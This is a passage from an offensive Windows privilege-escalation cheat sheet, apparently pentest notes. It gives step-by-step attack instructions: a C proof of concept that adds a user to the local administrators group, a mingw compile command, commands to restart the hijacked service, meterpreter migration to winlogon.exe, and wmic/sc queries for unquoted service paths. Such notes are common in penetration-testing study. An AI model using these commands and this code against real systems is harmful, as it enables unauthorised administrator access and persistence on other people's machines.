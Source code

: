 That means your user has write access. So you can just rename the `.exe` file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

```c
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

We then compile it with mingw like this:

```bash
i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe
```

**Restart the Service**

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using `wmic` or `net` the following way:

```
wmic service NAMEOFSERVICE call startservice
```

```
net stop [service name] && net start [service name].
```

The binary should now be executed in the SYSTEM or Administrator context.

**Migrate the meterpreter shell**

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:

```
wmic process list brief | find "winlogon"
```

So when you get the shell you can either type `migrate PID` or automate this so that meterpreter automatically migrates.

[http://chairofforgetfulness.blogspot.cl/2014/01/better-together-scexe-and.html](http://chairofforgetfulness.blogspot.cl/2014/01/better-together-scexe-and.html)

## Unquoted Service Paths

**Find Services With Unquoted Paths**

```
# Using WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

# Using sc
sc query
sc qc service name

# Look for Binary_path_name and see if it is unquoted.
```
